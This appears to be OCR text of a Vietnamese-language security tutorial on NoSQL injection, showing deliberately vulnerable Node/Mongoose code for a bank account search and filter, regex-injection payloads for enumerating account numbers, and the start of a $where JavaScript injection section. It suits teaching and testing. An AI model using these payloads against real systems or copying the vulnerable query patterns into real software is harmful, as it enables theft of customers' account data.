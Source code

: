 A. Lỗ hổng thực tế (2021)

Dashboard code (dashboard.js):
const response = await fetch(`/api/search-account?accountNumber=${regexPattern}`);

Backend vulnerable code:
router.get('/search-account', async (req, res) => {
  const { accountNumber } = req.query;
  const accounts = await Account.find({
    accountNumber: new RegExp(accountNumber)  // VULNERABLE
  });
});

B. Kỹ thuật tấn công

Payload 1: Extract ALL accounts
Input: .*
Query: accountNumber: /.*/ 
Kết quả: Trả về TẤT CẢ tài khoản

Payload 2: Brute-force từng ký tự
Input: ^1.*    → Tìm bắt đầu bằng 1
Input: ^12.*   → Tìm bắt đầu bằng 12
Input: ^123.*  → Tìm bắt đầu bằng 123

Payload 3: Pattern matching
Input: ^123[4-9].*
→ Tìm tài khoản 1234xxx đến 1239xxx

C. Case Study 2021

Một ngân hàng bị tấn công:
• Attacker sử dụng regex injection
• Dò được 50,000+ số tài khoản
• Kết hợp với thông tin rò rỉ → Chiếm tài khoản
• Thiệt hại: $2.3 triệu USD

D. Demo thực tế - Quick Payload từ giao diện:
1. ".*" → Lấy tất cả
2. "^1234.*" → Prefix attack
3. "^.{10}$" → Tài khoản 10 số
4. "^123[4-8].*" → Range attack

═══════════════════════════════════════════════════════════════

4. ATTACK 3: $WHERE JAVASCRIPT INJECTION

A. Lỗ hổng nghiêm trọng nhất

Code vulnerable (dashboard.js):
const whereClause = `this.accountHolder == '${searchInput}'`;
fetch('/api/filter', {
  method: 'POST',
  body: JSON.stringify({ condition: whereClause })
});

Backend code:
router.post('/filter', async (req, res) => {
  const { condition } = req.body;
  const results = await Account.find({
    $where: condition  // THỰC THI JAVASCRIPT
  });
});
